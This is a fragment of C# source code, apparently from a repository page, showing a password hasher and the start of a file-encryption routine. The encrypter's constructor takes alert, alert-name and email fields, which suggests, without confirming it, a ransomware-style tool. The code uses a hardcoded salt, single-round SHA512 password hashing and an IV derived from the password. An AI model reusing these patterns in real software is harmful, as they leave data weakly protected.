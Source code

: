 ```c#
                    UID = null;
            }
```

- Encryptor.class/PasswordHasher.cs :

```c#
    internal class PasswordHasher
    {
            public string GetSalt()
            {
                    return Guid.NewGuid().ToString("N");
            }
    
            public string Hasher(string password)
            {
                    using SHA512CryptoServiceProvider sHA512CryptoServiceProvider = new SHA512CryptoServiceProvider();
                    byte[] bytes = Encoding.UTF8.GetBytes(password);
                    return Convert.ToBase64String(sHA512CryptoServiceProvider.ComputeHash(bytes));
            }
    
            public string GetHashCode(string password, string salt)
            {
                    string password2 = password + salt;
                    return Hasher(password2);
            }
    
            public bool CheckPassword(string password, string salt, string hashedpass)
            {
                    return GetHashCode(password, salt) == hashedpass;
            }
    }
```

- Encryptor.class/CoreEncryptor.cs :

```c#
    public CoreEncrypter(string password, string alert, string alertName, string email)
            {
                    this.password = password;
                    this.alert = alert;
                    this.alertName = alertName;
                    this.email = email;
            }
    
    public void EncryptFile(string file)
            {
                    byte[] array = new byte[65535];
                    byte[] salt = new byte[8] { 0, 1, 1, 0, 1, 1, 0, 0 };
                    Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(password, salt, 4953);
                    RijndaelManaged rijndaelManaged = new RijndaelManaged();
                    rijndaelManaged.Key = rfc2898DeriveBytes.GetBytes(rijndaelManaged.KeySize / 8);
                    rijndaelManaged.Mode = CipherMode.CBC;
                    rijndaelManaged.Padding = PaddingMode.ISO10126;
                    rijndaelManaged.IV = rfc2898DeriveBytes.GetBytes(rijndaelManaged.BlockSize / 8);
                    FileStream fileStream = null;
    .
    .
    .
```
